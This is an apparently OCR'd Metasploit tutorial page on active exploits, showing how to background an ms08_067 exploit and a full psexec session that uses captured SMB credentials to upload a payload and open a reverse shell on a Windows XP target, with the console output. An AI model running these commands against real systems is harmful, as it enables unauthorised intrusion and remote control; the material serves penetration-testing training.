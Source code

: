 # WORKING WITH ACTIVE AND PASSIVE EXPLOITS IN METASPLOIT

- All exploits in the Metasploit Framework will fall into two categories: active and passive.

  - ## ACTIVE EXPLOITS

    - Active exploits will exploit a specific host, run until completion, and then exit.

      - Brute-force modules will exit when a shell opens from the victim.
      - Module execution stops if an error is encountered.
      - You can force an active module to the background by passing ‘-j’ to the exploit command:

            msf exploit(ms08_067_netapi) > exploit -j
            [*] Exploit running as background job.
            msf exploit(ms08_067_netapi) >

      - The following example makes use of a previously acquired set of credentials to exploit and gain a reverse shell on the target system.

            msf > use exploit/windows/smb/psexec
            msf exploit(psexec) > set RHOST 192.168.1.100
            RHOST => 192.168.1.100
            msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
            PAYLOAD => windows/shell/reverse_tcp
            msf exploit(psexec) > set LHOST 192.168.1.5
            LHOST => 192.168.1.5
            msf exploit(psexec) > set LPORT 4444
            LPORT => 4444
            msf exploit(psexec) > set SMBUSER victim
            SMBUSER => victim
            msf exploit(psexec) > set SMBPASS s3cr3t
            SMBPASS => s3cr3t
            msf exploit(psexec) > exploit

            [*] Connecting to the server...
            [*] Started reverse handler
            [*] Authenticating as user 'victim'...
            [*] Uploading payload...
            [*] Created \hikmEeEM.exe...
            [*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
            [*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
            [*] Obtaining a service manager handle...
            [*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
            [*] Closing service handle...
            [*] Opening service...
            [*] Starting the service...
            [*] Removing the service...
            [*] Closing service handle...
            [*] Deleting \hikmEeEM.exe...
            [*] Sending stage (240 bytes)
            [*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

            Microsoft Windows XP [Version 5.1.2600]
            (C) Copyright 1985-2001 Microsoft Corp.

